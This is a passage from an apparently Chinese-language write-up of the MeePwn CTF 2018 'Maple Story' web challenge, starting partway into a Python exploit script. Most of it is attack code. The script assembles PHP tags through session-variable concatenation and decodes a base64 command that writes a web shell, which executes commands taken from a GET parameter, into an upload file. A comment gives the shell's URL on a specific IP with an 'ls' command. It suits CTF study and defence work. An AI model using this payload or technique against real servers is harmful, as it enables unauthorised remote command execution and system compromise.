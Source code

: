 ```python
)


def do(s):
    change_name(s)
    give_pet(user_email)
    print s
    print shell()


payload1 = """
<?=$_SESSION[a]='*/'?>
<?=$_SESSION[a].=';'?>
<?=$_SESSION[a].='"'?>
<?=$_SESSION[a].='<'?>
<?=$_SESSION[a].='?'/*
<?=$_SESSION[a].='='/*
<?=$_SESSION[a].=' '/*
"""

payload2 = '`echo PD89YCRfR0VUWzFdYDsK|base64 -d >> upload/%s/command.txt`' % hashlib.md5(
    salt + user_email).hexdigest()
payload3 = """
<?=$_SESSION[a].=''/*
<?=$_SESSION[a].='?'/*
<?=$_SESSION[a].='>'/*
<?=$_SESSION[a]?>
"""


def xxx():
    for p in payload1.split('\n')[1:-1]:
        do(p)
    for c in payload2:
        p = "<?=$_SESSION[a].='%s'/*" % c
        do(p)
    for p in payload3.split('\n')[1:-1]:
        do(p)


xxx()
print hashlib.md5(salt + user_email).hexdigest()
# 可通过运行结果理解payload的巧妙
# 结果存放在
# https://github.com/findneo/ctfgodown/blob/master/20180718-Meepwn%20CTF%20Quals%202018/WEB/maplStory_SESSION_CONCAT_result.txt
# shell at 
# http://178.128.87.16/?page=upload/e500ec6d3d2b69fda8ff11b5b53b5ee2/command.txt&1=ls
```

![1532114006803](1532114006803.png)





# 参考链接

https://ctftime.org/writeup/10418 

[MeePwn CTF 2018 Qual - Maple Story](https://movrment.blogspot.com/2018/07/meepwn-ctf-2018-qual-maple-s.html)   
